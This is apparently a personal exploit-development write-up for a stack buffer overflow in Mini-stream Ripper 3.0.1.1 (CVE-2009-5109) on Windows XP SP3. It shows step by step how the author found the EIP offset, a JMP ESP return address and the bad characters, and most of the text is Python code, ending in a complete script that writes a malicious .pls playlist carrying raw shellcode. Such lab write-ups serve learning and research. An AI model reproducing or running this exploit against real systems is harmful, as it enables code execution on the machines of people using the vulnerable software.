 # Mini-stream Ripper 3.0.1.1 _ Win XP SP3 - Buffer Overflow

-   cve details: [CVE-2009-5109](https://nvd.nist.gov/vuln/detail/CVE-2009-5109)
-   Target: Mini-stream Ripper 3.0.1.1
-   Platform : windows xp- SP3 - Build 2600
-   Exploit : Python 2.7
-   debugger: Immunity Debugger

I check program and I see ,program looad several format file like PLS,m3u , ... . I create a exploit and send 50000 buffer to program.It crashed and EIP is 41414141.
I use Mona to detect size of the buffer (5786). But when Use this size of the buffer, Program not crash. Now I should be detect manually. For this I change my exploit to:


```
f=open("css.pls","w+")
exploit="A" * 12500 + "B" * 12500 + "C" * 12500 + "D" * 12500
f.write(exploit)
f.close()
```

IF EIP is 41414141 delete BCD, if 42424242 delete CB and ... . I several test and finally I recive to 26066.


```
f=open("css.pls","w+")
exploit="A" * 26066 + "BBBB"  + "C" * 100 
f.write(exploit)
f.close()
```

EIP is 42424242 and after 8 byte,"C" is buffered.So I add to my exploit , my shellcode and a address of the "jmo ESP" (point to stack,replace BBBB) 
and 8 NOP to by pass 8 byte gap.

```
f=open("css.pls","w+")
exploit="A" * 26066 + "\xcf\x2e\xe3\x73"  + "\x90" *8 + ("\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1"
"\x31\x31\x6b\x13\x03\x6b\x13\x83\xeb\x75\x8e\xd8\x41\x6d\xcd"
"\x23\xba\x6d\xb2\xaa\x5f\x5c\xf2\xc9\x14\xce\xc2\x9a\x79\xe2"
"\xa9\xcf\x69\x71\xdf\xc7\x9e\x32\x6a\x3e\x90\xc3\xc7\x02\xb3"
"\x47\x1a\x57\x13\x76\xd5\xaa\x52\xbf\x08\x46\x06\x68\x46\xf5"
"\xb7\x1d\x12\xc6\x3c\x6d\xb2\x4e\xa0\x25\xb5\x7f\x77\x3e\xec"
"\x5f\x79\x93\x84\xe9\x61\xf0\xa1\xa0\x1a\xc2\x5e\x33\xcb\x1b"
"\x9e\x98\x32\x94\x6d\xe0\x73\x12\x8e\x97\x8d\x61\x33\xa0\x49"
"\x18\xef\x25\x4a\xba\x64\x9d\xb6\x3b\xa8\x78\x3c\x37\x05\x0e"
"\x1a\x5b\x98\xc3\x10\x67\x11\xe2\xf6\xee\x61\xc1\xd2\xab\x32"
"\x68\x42\x11\x94\x95\x94\xfa\x49\x30\xde\x16\x9d\x49\xbd\x7c"
"\x60\xdf\xbb\x32\x62\xdf\xc3\x62\x0b\xee\x48\xed\x4c\xef\x9a"
"\x4a\xa2\xa5\x87\xfa\x2b\x60\x52\xbf\x31\x93\x88\x83\x4f\x10"
"\x39\x7b\xb4\x08\x48\x7e\xf0\x8e\xa0\xf2\x69\x7b\xc7\xa1\x8a"
"\xae\xa4\x24\x19\x32\x05\xc3\x99\xd1\x59")
f.write(exploit)
f.close()
```

But after run it ,shellcode Not execute and I understood ,I have badcahr :( . I generate bytearray with mona and add to my exploit :


```
f=open("css.pls","w+")
exploit="A" * 26066 + "\xcf\x2e\xe3\x73"  + "\x90" *8 + ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
f.write(exploit)
f.close()
```

I check manually and detect this bad char: \x00\x09\x0a . I generate shellcode and again it Not work. I have extra bad char. For detect It,I add 
last shellcode (without bad char) and in the last first line add "\xcc" (breakpoint). I run exploit and I see my shellcode not stop in \xcc.

```
"\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xb1\xcc"
```

I change posation of "\xcc" :

```
"\xbd\x89\x6c\x2d\xbd\xdb\xc5\xd9\x74\x24\xf4\x5b\x2b\xc9\xcc\xb1"
```

I change It to detect xd9 is badchar. I generate new shellcode without \x00\x09\x0a\xda\. After run again myshell code Not run. I run last step and
I understood xd9 is badchar, Finally I create shellcode without this character : "\x00\x09\x0a\xda\xd9" . and it run :)


```
f=open("css.pls","w+")

#jmp esp address: 73E32ECF 
#badcar: \x00\x09\x0a\xda\xd9

exploit="A" * 26066 + "\xcf\x2e\xe3\x73" + "\x90" *8 + ("\x31\xc9\x83\xe9\xcf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76\x0e"
"\xbf\x9a\x3d\xef\x83\xee\xfc\xe2\xf4\x43\x72\xbf\xef\xbf\x9a"
"\x5d\x66\x5a\xab\xfd\x8b\x34\xca\x0d\x64\xed\x96\xb6\xbd\xab"
"\x11\x4f\xc7\xb0\x2d\x77\xc9\x8e\x65\x91\xd3\xde\xe6\x3f\xc3"
"\x9f\x5b\xf2\xe2\xbe\x5d\xdf\x1d\xed\xcd\xb6\xbd\xaf\x11\x77"
"\xd3\x34\xd6\x2c\x97\x5c\xd2\x3c\x3e\xee\x11\x64\xcf\xbe\x49"
"\xb6\xa6\xa7\x79\x07\xa6\x34\xae\xb6\xee\x69\xab\xc2\x43\x7e"
"\x55\x30\xee\x78\xa2\xdd\x9a\x49\x99\x40\x17\x84\xe7\x19\x9a"
"\x5b\xc2\xb6\xb7\x9b\x9b\xee\x89\x34\x96\x76\x64\xe7\x86\x3c"
"\x3c\x34\x9e\xb6\xee\x6f\x13\x79\xcb\x9b\xc1\x66\x8e\xe6\xc0"
"\x6c\x10\x5f\xc5\x62\xb5\x34\x88\xd6\x62\xe2\xf0\x3c\x62\x3a"
"\x28\x3d\xef\xbf\xca\x55\xde\x34\xf5\xba\x10\x6a\x21\xcd\x5a"
"\x1d\xcc\x55\x49\x2a\x27\xa0\x10\x6a\xa6\x3b\x93\xb5\x1a\xc6"
"\x0f\xca\x9f\x86\xa8\xac\xe8\x52\x85\xbf\xc9\xc2\x3a\xdc\xfb"
"\x51\x8c\x91\xff\x45\x8a\xbf\x9a\x3d\xef")
f.write(exploit)
f.close()

```

![](https://github.com/Creamy-Chicken-Soup/My-Writeup/blob/main/CVE-2009-5109_BOF/images/1.PNG)

